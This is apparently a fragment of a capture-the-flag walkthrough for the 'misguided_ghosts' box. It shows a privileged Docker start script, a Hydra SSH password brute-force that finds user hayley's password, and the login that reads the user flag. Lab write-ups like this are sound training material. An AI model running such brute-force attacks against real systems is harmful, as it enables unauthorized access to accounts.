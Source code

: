 ```bash
-rwxr-xr-x    1 root     root         222 Aug 26  2020 start.sh
drwxr-xr-x    5 root     root        4.0K Aug 28  2020 static
-rwxr-xr-x    1 root     root          92 Aug 26  2020 stop.sh
drwxr-xr-x    2 root     root        4.0K Aug 28  2020 templates
cat start.sh
#!/bin/bash

/usr/bin/docker build -t https /var/www/https

/usr/bin/docker container run --detach --privileged --restart=unless-stopped -p 8080:8080 --mount type=bind,source="/home/zac/notes",target=/home/zac/notes https
```


```bash
:~# hydra -l hayley -P pass ssh://xx.xxx.xxx.xx
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-15 03:34:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:1/p:20), ~2 tries per task
[DATA] attacking ssh://xx.xxx.xxx.xx:22/
[22][ssh] host: xx.xxx.xxx.xx3   login: hayley   password: *******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-15 xx3xx:xx
```

```bash
:~# ssh hayley@xx.xxx.xxx.xx
hayley@xx.xxx.xxx.xx's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Sep 15 xx:xx:xx UTC 2025

  System load:  0.25               Processes:              292
  Usage of /:   51.0% of 18.57GB   Users logged in:        1
  Memory usage: 73%                IP address for eth0:    xx.xxx.xxx.xx
  Swap usage:   0%                 IP address for docker0: xxx.xx.x.x


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

8 packages can be updated.
0 updates are security updates.


hayley@misguided_ghosts:~$ pwd
/home/hayley
hayley@misguided_ghosts:~$ id
uid=1000(hayley) gid=1000(hayley) groups=1000(hayley),1002(paramore)
hayley@misguided_ghosts:~$ ls
user.txt
hayley@misguided_ghosts:~$ cat user.txt
{*************}
```